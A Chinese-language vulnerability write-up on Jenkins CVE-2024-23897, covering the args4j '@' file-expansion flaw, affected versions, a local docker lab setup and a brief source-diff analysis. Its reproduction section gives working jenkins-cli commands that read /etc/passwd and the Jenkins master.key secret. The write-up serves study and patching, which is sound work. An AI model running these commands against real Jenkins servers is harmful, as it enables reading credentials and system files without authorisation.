









# Jenkins 任意文件读取漏洞（CVE-2024-23897）

## 漏洞简介

Jenkins 有一个内置的命令行界面（CLI），可从脚本或 shell 环境访问 Jenkins。处理 CLI 命令时，Jenkins 使用 args4j 库解析 Jenkins 控制器上的命令参数和选项。由于 Jenkins 受影响版本中默认启用其 CLI 命令解析器的一个功能，特定的解析器功能 expandAtFiles 可将@参数中后跟文件路径的字符替换为文件内容，可能导致威胁者读取 Jenkins 控制器文件系统上的任意文件，或可以进一步利用该漏洞在多种情况下导致远程代码执行。

命令行接口文件读取：Jenkins 内置的命令行接口（CLI）存在一个特性，允许在命令参数中用@字符后跟文件路径来替换为文件内容。这导致攻击者能够读取 Jenkins 控制器文件系统上的任意文件。  
权限绕过：拥有 Overall/Read 权限的攻击者可以读取完整文件，而没有该权限的攻击者也可以读取部分文件内容。

version <\\= Jenkins 2.441  
version <\\= LTS 2.426.2

‍

## 环境搭建

利用 docker 来进行环境搭建 [https://hub.docker.com/r/jenkins/jenkins/tags](https://hub.docker.com/r/jenkins/jenkins/tags)

```python
docker pull jenkins/jenkins:2.440-jdk17
docker run  --name jenkins -p 8090:8080 jenkins/jenkins:2.440-jdk17
```





## 漏洞复现

访问路径 [http://127.0.0.1:8090/cli/?remoting=false](http://127.0.0.1:8090/cli/?remoting=false) 下载 jenkins-cli.jar  


```python
 java -jar jenkins-cli.jar -s http://127.0.0.1:8090/ who-am-i "@/var/jenkins_home/secrets/master.key"
```



```python
java -jar jenkins-cli.jar -s http://127.0.0.1:8090/ help "@/etc/passwd"
java -jar jenkins-cli.jar -s http://127.0.0.1:8090/ who-am-i "@/etc/passwd"
```



‍

## 漏洞分析

比较版本差异性

[https://github.com/jenkinsci/jenkins/compare/jenkins-2.441...jenkins-2.442](https://github.com/jenkinsci/jenkins/compare/jenkins-2.441...jenkins-2.442)

修改内容主要出现在 `src/main/java/hudson/cli/CLICommand.java`​



`hudson.cli.CLICommand#main`​



`org.kohsuke.args4j.CmdLineParser#parseArgument(java.lang.String...)`​



`org.kohsuke.args4j.CmdLineParser#expandAtFiles`​



如果参数以 `@`​ 开头，那么会把 `@`​ 后面的内容作为绝对路径，建立 File 对象，并读取文件内容
